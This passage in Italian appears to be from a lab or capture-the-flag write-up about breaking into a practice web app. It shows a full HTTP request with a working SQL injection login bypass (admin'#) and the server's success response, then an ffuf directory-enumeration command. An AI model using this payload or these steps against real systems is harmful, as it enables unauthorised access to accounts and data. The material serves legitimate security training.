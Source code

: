 possiamo tentare un attacco SQLi

ora dopo aver provato tramite Intruder di Burp Suite una lista di payload reperiti qui [payload-list](https://github.com/payloadbox/sql-injection-payload-list)

ne ho trovato funzionante il seguente 
```
POST /management/classes/Login.php?f=login HTTP/1.1
Host: 10.10.163.22:445
User-Agent: J
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: http://10.10.163.22:445
Connection: keep-alive
Referer: http://10.10.163.22:445/management/admin/login.php
Cookie: PHPSESSID=90d7sr575v33lo5p9557c1rubl
Priority: u=0

username=admin'%20%23&password=1234
```

```
HTTP/1.1 200 OK
Date: Mon, 02 Jun 2025 06:07:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 20
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"status":"success"}
```

```
admin'#
```
lo inseriamo nel campo admin e mettiamo una password casuale
```
http://10.10.163.22:445/management/admin/login.php
```

eccoci loggati come Admin!

Proviamo a fare una nuova enumerazione su /management  alla ricerca di qualche directory 
proviamo tanto per cambiare un altro strumento ffuf 

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.163.22:445/management/FUZZ
```
